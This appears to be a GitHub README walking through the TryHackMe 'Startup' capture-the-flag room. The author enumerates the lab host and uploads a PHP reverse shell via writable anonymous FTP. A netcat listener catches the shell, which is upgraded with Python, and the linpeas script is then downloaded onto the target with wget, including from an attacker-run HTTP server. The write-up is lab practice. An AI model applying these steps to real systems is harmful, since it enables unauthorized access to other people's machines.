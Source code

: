 # THM-Startup
https://tryhackme.com/room/startup

Last CTF (THM - mrrobot) took to much time, mainly because I oweranalyzed things.
This one i´m going to look for the easy solutions.

## Lets go!

## Starting with standard enumeration.
********
### Nmap (top 1000 ports with script scan)
```
nmap 10.10.225.190 -sC
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 

22/tcp open  ssh
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http
|_http-title: Maintenance
```
We get that port 21, 22 and port 80 are open.
Because we used -sC we also get some extra info about FTP.
We can login as Anonumous and the ftp folder is writable.
We also get FTP and SSH server versions.
*************
### Dirbuster

```
dirb http://10.10.96.196 -w /usr/share/wordlists/dirb/common.txt

http://10.10.96.196/index.html
http://10.10.96.196/files/ftp/ 
```
Dirbuster shows that we can access the FTP folder from HTTP, **thats interesting** .
*******
### HTTP
The main web page is just a http file with nothing interesting.<br>
**But if we try the /files folder we get this!**<br>
![image](https://user-images.githubusercontent.com/93491173/216457959-4ac23f3e-f451-4385-82ff-23bda5fc37e2.png)<br>
The /ftp folder is empty.
*******
### FTP
The ftp folder writable, lets see what we can do with that.
We can start to upload pentestmonkey.php reverse shell.
```
ftp Anonymous@IPADRESS
no passwd

cd ftp
ftp> put
(local-file) /home/kali/THM/Startup/Files/pentestmonkey.php
(remote-file) pentestmonkey.php
local: /home/kali/THM/Startup/Files/pentestmonkey.php remote: pentestmonkey.php
```
That worked fine, and its shows up in the browser.
*********
### Reverse shell
Lets try to get a revers shell running.
```
(local host) nc -nlvp 4444
```
Open the pentestmonkey.php in the web browser, we are connected!
*********
### Spawn a shell thru Python
Now we need a usable shell, let use Python to launch a shell.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
**********
### The secret recipe
Read the file /recipe.txt
```
www-data@startup:/$ 
cat /recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured <br> I can't keep it a secret forever and told him it was ****.
```
**********
### Linpeas (finding a weakness)
2 ways to get the Linpeas script oto the host.
1. 
```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230205/linpeas.sh
chmod +x linpeas.sh
```

```
download to LHOST
start a http server on LHOST
python -m http.server 53

Download to RHOST
cd /tmp
wget http://LHOST-IP:53/linpeas.sh
chmod +x linpeas.sh
```
Now lest run Linpeas
```
www-data@startup:/tmp$ ./linpeas.sh
```
